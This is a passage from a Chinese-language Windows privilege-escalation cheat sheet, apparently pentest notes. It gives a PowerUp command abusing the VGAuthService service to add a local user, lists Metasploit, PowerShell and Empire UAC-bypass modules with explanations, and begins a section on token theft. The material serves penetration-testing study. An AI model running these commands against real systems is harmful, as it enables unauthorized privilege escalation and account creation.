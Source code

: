 -   ServiceName：可能存在漏洞的服务
-   Path：该服务的可执行程序的路径
-   StartName：服务运行账号
-   AbuseFunction：利用方式

`执行命令，这里以VMTools为例`  
添加 test 用户

```plain
powershell.exe -exec bypass -Command "& {Import-Module C:/PowerUp.ps1;Invoke-ServiceAbuse -Name 'VGAuthService' -Username test -Password 123456}"
```

## Bypass UAC

```plain
#Msf
exploit/windows/local/ask       #弹出 UAC 确认窗口，点击后获得 system 权限

exploit/windows/local/bypassuac  #此模块将通过进程注入使用可信任发布者证书绕过 Windows UAC，它将生成关闭 UAC 标志的第二个 shell。

exploit/windows/local/bypassuac_injection #此模块将通过进程注入使用可信任的发布者证书绕过 Windows UAC。它将生成关闭 UAC 标志的第二个 shell。在普通技术中，该模块使用反射式 DLL 注入技术并只除去了 DLL payload 二进制文件，而不是三个单独的二进制文件。但是，它需要选择正确的体系架构（对于 SYSWOW64 系统也使用 x64）。如果指定 exe::custom，应在单独的进程中启动 payload 后调用 ExitProcess（）


exploit/windows/local/bypassuac_fodhelper#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows fodhelper.exe 应用程序时调用的自定义命令来绕过 Windows 10 UAC。它将生成关闭 UAC 标志的第二个 shell。此模块修改注册表项，但在调用 payload 后将清除该项。该模块不需要 payload 的体系架构和操作系统匹配。如果指定 exe:custom，则应在单独的进程中启动 payload 后调用 ExitProcess（）。

exploit/windows/local/bypassuac_eventvwr#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows事件查看器时调用的自定义命令来绕过Windows UAC。它将生成关闭 UAC 标志的第二个 shell。此模块修改注册表项，但在调用 payload 后将清除该项。该模块不需要 payload 的体系架构和操作系统匹配。如果指定 EXE ::Custom，则应在单独的进程中启动 payload 后调用 ExitProcess（）

exploit/windows/local/bypassuac_comhijack#此模块将通过在hkcu配置单元中创建COM处理程序注册表项来绕过Windows UAC。当加载某些较高完整性级别进程时，会引用这些注册表项，从而导致进程加载用户控制的 DLL，这些 DLL 包含导致会话权限提升的 payload。此模块修改注册表项，但在调用 payload 后将清除该项，这个模块需要 payload 的体系架构和操作系统匹配，但是当前的低权限 meterpreter 会话体系架构中可能不同。如果指定 exe:：custom，则应在单独的进程中启动 payloa 后调用 ExitProcess（）。此模块通过目标上的 cmd.exe 调用目标二进制文件，因此，如果 cmd.exe 访问受到限制，此模块将无法正常运行。

#Powershell
Invoke-PsUACme

#Empire
usemodule privesc/bypassuac
usemodule privesc/bypassuac_wscript
```

### 令牌窃取 - 可用

访问令牌 (Access Token)：表示访问控制操作主体的系统对象。  
会话令牌 (Session Token)：是交互会话中唯一的身份标识符。  
密保令牌 (Security Token)：又叫做认证令牌或硬件令牌，是一种计算机身份校验的物理设备，例如 U 盾。
